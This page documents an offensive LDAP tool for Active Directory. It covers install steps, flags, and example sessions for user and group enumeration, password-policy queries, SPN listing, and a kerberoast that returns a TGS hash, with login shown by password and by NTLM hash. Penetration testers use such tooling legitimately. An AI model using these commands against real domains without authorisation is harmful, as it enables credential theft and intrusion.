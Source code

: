 ```yaml
---
title : "ldapper"
# pre : ' '
description : "A GoLang tool to enumerate and abuse LDAP. Made simple."
date : 2022-09-25T12:59:17+02:00
# hidden : true
# draft : true
weight : 0
tags : ['Other', 'LDAP', 'Active Directory']
---
```


## ldapper

A GoLang tool to enumerate and abuse LDAP. Made simple.

Ldapper was created with for use in offensive security engagements for targeted user enumeration, group enumeration, and more. Ldapper uses familiar "net" commands such as "net user" and "net group" to perform all its queries and its output follows the same conventions. Ldapper's user interface operates as a pseudo-interactive shell, where the user can input commands until exited. All traffic goes over the LDAP(S) protocol with a singular bind to help you better blend into the network.

Ldapper is proxy aware and supports NTLM authentication with a user's hash. Additionally, this tool can perform modification actions within LDAP. More functionality is planned for later releases, but for now additional supported command functions are:

Add Domain Computers
Add/Remove Arbitrary SPNs
Kerberoast
This tool should be considered in its beta stages. Please report any bugs, issues, or functionality ideas for future releases.

## Installation

```plain
git clone https://github.com/Synzack/ldapper
go mod tidy
go build
```

## Usage

```plain
./ldapper [OPTIONS]
```

## Flags

```plain
  -H string
        Use NTLM authentication
  -dc string
        IP address or FQDN of target DC
  -h    Display help menu
  -o string
        Log file
  -p string
        Password
  -s    Bind using LDAPS
  -socks4 string
        SOCKS4 Proxy Address (ip:port)
  -socks4a string
        SOCKS4A Proxy Address (ip:port)
  -socks5 string
        SOCKS5 Proxy Address (ip:port)
  -u string
        Username (username@domain)
Examples:
        With Password:  ./ldapper -u <username@domain> -p <password> -dc <ip/FQDN> -s
        With Hash:      ./ldapper -u <username@domain> -H <hash> -dc <ip/FQDN> -s
```

## Examples

#### Setting up connection

* Username/password authentication: `./ldapper -dc 10.0.0.20 -u crypt0rr@offsec.nl -p Welkom1234`
* NTLM Authentication: `./ldapper -dc 10.0.0.20 -u crypt0rr@offsec.nl -H 97f2592347d8fbe42be381726ff9ea83`

#### Starting LDAP-shell session running 'net user'

```plain
> net user administrator

User Information - administrator:
-------------------------------------------------------------------------------
User Name:              Administrator
Full Name:              Administrator
Comment:                Built-in account for administering the computer/domain
User Account Control:   USER_DONT_EXPIRE_PASSWORD
                        USER_NORMAL_ACCOUNT
                        (If Enabled, Check Last Lockout Time)
Last Lockout Time: 
Account Expires:        Never
Password Last Set:      08/09/2022 11:08:05 AM
Home Directory: 
Last logon:             09/16/2022 01:20:30 PM
Mail: 
SPN(s): 
```

#### Retrieve ms-DS-MachineAccountQuota

```plain
> mquota
Machine Account Quota: 10
```

#### Checking password policy

```plain
> passpol

Minimum Password Length:        7
Password History Length:        24
Lockout Threshold:              0
Lockout Duration:               30      minutes
Reset Account Lockout Counter:  30      minutes
Minimum Password Age:           1       day(s)
Maximum Password Age:           42      day(s)

Password Complexity:            DOMAIN_PASSWORD_COMPLEX
```

#### Retrieve group members 'net group'

```plain
> net group Domain Admins
Comment: Designated administrators of the domain

Primary Group Members
-------------------------------------------------------------------------------
ThisIsAGroupWithinDA (Group)    johndo-adm              KIETH_MCINTOSH
STEWART_SANDERS                 ERICH_ATKINS            GERTRUDE_KNIGHT
AUGUSTINE_PUCKETT               Administrator


> net group Account Operators
Comment: Members can administer domain user and group accounts

Primary Group Members
-------------------------------------------------------------------------------
crypt0rr        KIMBERLEY_CONTRERAS     LORENE_CLINE
1060184468SA
```

#### Get list of SPNs and perform kerberoasting

```plain
> getspns
SPN                     Username                PasswordLastSet                 LastLogon       Delegation
CIFS/AWSWVIR1000000     HAL_MURRAY              2022-07-04 15:27:52 +0200 CEST  <never>
CIFS/FINWWKS1000000     MYRON_FORD              2022-07-04 15:26:44 +0200 CEST  <never>
CIFS/TSTWDBAS1000000    SHIRLEY_RANDALL         2022-07-04 15:26:37 +0200 CEST  <never>
CIFS/TSTWVIR1000000     TANYA_DEJESUS           2022-07-04 15:19:32 +0200 CEST  <never>
ftp/AWSWAPPS1000000     HEATH_PATTON            2022-07-04 15:20:44 +0200 CEST  <never>
ftp/AWSWSECS1000000     ANGEL_WORKMAN           2022-07-04 15:25:28 +0200 CEST  <never>
ftp/BDEWWKS1000001      DIANNA_KIRBY            2022-07-04 15:27:31 +0200 CEST  <never>
ftp/FINWLPT1000003      MARVA_CLARK             2022-07-04 15:23:10 +0200 CEST  <never>
ftp/FINWWEBS1000001     RICKIE_RUSSO            2022-07-04 15:20:00 +0200 CEST  <never>
ftp/GOOWLPT1000001      ABE_MASON               2022-07-04 15:23:37 +0200 CEST  <never>
```

```plain
> roast HAL_MURRAY
$krb5tgs$23$*HAL_MURRAY$OFFSEC.NL$HAL_MURRAY*$0d2768f9c9cb33b22e338cd4e732f3dd$6e47d8cb3701126a966d0c7697b[...]091b8b73a9a1dba92d661a
```

## URL List

* [Github.com - ldapper](https://github.com/Synzack/ldapper)
